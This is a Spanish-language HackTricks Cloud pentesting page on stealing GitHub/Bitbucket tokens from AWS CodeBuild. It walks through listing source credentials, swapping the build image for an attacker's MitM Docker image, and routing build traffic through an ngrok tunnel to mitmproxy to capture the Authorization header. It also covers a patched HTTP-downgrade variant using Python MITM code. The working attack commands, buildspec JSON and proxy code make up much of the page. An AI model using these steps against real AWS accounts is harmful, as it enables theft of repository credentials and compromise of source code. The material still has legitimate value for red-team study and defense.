 # AWS Codebuild - Fuga de Tokens

<details>

<summary><strong>Aprende hacking de AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue**me en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Recuperar Tokens Configurados de Github/Bitbucket

Primero, verifica si hay credenciales de origen configuradas que podrías filtrar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si descubres que la autenticación para, por ejemplo, Github está configurada en la cuenta, puedes **exfiltrar** ese **acceso** (**token de GH o token de OAuth**) haciendo que Codebuild **utilice una imagen de Docker específica** para ejecutar la construcción del proyecto.

Para este propósito podrías **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para configurar la **imagen de Docker**.

La imagen de Docker que podrías usar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen de Docker muy básica que configurará las **variables de entorno `https_proxy`**, **`http_proxy`** y **`SSL_CERT_FILE`**. Esto te permitirá interceptar la mayoría del tráfico del host indicado en **`https_proxy`** y **`http_proxy`** y confiar en el CERT SSL indicado en **`SSL_CERT_FILE`**.

1. **Crea y sube tu propia imagen de Docker MitM**
* Sigue las instrucciones del repositorio para configurar tu dirección IP del proxy y configurar tu certificado SSL y **construir la imagen de Docker**.
* **NO CONFIGURES `http_proxy`** para no interceptar solicitudes al punto final de metadatos.
* Podrías usar **`ngrok`** como `ngrok tcp 4444` para configurar el proxy a tu host.
* Una vez que tengas la imagen de Docker construida, **súbela a un repositorio público** (Dockerhub, ECR...)
2. **Configura el entorno**

* Crea un **nuevo proyecto de Codebuild** o **modifica** el entorno de uno existente.
* Configura el proyecto para usar la **imagen de Docker generada previamente**
*

```
<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
```
3. **Configura el proxy MitM en tu host**
* Como se indica en el **repositorio de Github**, podrías usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **Ejecuta la construcción y captura las credenciales**

*   Puedes ver el token en el encabezado **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Esto también se podría hacer desde la aws cli con algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Mediante el protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Por lo tanto, un atacante ya no puede abusar de ella :)**
{% endhint %}

Un atacante con **permisos elevados en un CodeBuild podría filtrar el token de Github/Bitbucket** configurado o si los permisos se configuraron a través de OAuth, el **token temporal de OAuth utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto CodeBuild apuntando a su máquina (por ejemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Luego, cambiar la URL del repositorio de github para usar HTTP en lugar de HTTPS, por ejemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Después, ejecutar el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto indicado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Build the project**, las **credenciales** serán **enviadas en texto claro** (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y (ab)usarlos más fácilmente que utilizando el servicio de CodeBuild directamente.
{% endhint %}

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
